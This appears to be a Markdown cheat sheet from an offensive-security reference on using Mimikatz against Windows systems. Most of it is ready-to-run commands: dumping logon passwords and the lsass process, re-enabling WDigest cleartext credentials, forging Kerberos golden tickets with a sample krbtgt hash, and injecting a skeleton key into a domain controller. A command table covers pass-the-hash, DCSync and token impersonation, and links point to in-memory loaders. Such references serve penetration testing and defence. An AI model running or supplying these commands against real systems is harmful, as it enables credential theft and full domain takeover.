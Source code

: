 # Windows - Mimikatz

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Mimikatz - Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Mimikatz - Extract passwords

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
```

## Mimikatz - Mini Dump

Dump the lsass process.

```powershell
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp

net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Then load it inside Mimikatz.

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
Switch to minidump
mimikatz # sekurlsa::logonPasswords
```

## Mimikatz Golden ticket

```powershell
.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## Mimikatz Skeleton key

```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```

## Mimikatz commands

| Command |Definition|
|:----------------:|:---------------|
| CRYPTO::Certificates|list/export certificates|
|CRYPTO::Certificates | list/export certificates|
|KERBEROS::Golden | create golden/silver/trust tickets|
|KERBEROS::List | list all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.|
|KERBEROS::PTT | pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).|
|LSADUMP::DCSync | ask a DC to synchronize an object (get password data for account). No need to run code on DC.|
|LSADUMP::LSA | Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account credential such as krbtgt with the parameter /name: “/name:krbtgt”|
|LSADUMP::SAM | get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.|
|LSADUMP::Trust | Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).|
|MISC::AddSid | Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016.|
|MISC::MemSSP | Inject a malicious Windows SSP to log locally authenticated credentials.|
|MISC::Skeleton | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a “master password” (aka Skeleton Keys) as well as their usual password.|
|PRIVILEGE::Debug | get debug rights (this or Local System rights is required for many Mimikatz commands).|
|SEKURLSA::Ekeys | list Kerberos encryption keys|
|SEKURLSA::Kerberos | List Kerberos credentials for all authenticated users (including services and computer account)|
|SEKURLSA::Krbtgt | get Domain Kerberos service account (KRBTGT)password data|
|SEKURLSA::LogonPasswords | lists all available provider credentials. This usually shows recently logged on user and computer credentials.|
|SEKURLSA::Pth | Pass- theHash and Over-Pass-the-Hash|
|SEKURLSA::Tickets | Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account. Unlike kerberos::list, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).|
|TOKEN::List | list all tokens of the system|
|TOKEN::Elevate | impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box|
|TOKEN::Elevate /domainadmin | impersonate a token with Domain Admin credentials.

## Powershell Mimikatz

Mimikatz in memory (no binary on disk) with :

- [Invoke-Mimikatz](https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1) from PowerShellEmpire
- [Invoke-Mimikatz](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1) from PowerSploit

More informations can be grabbed from the Memory with :

- [Invoke-Mimikittenz](https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1)

## References

- [Unofficial Guide to Mimikatz & Command Reference](https://adsecurity.org/?page_id=1821)
- [Skeleton Key](https://pentestlab.blog/2018/04/10/skeleton-key/)
- [Reversing Wdigest configuration in Windows Server 2012 R2 and Windows Server 2016 - 5TH DECEMBER 2017 - ACOUCH](https://www.adamcouch.co.uk/reversing-wdigest-configuration-in-windows-server-2012-r2-and-windows-server-2016/)
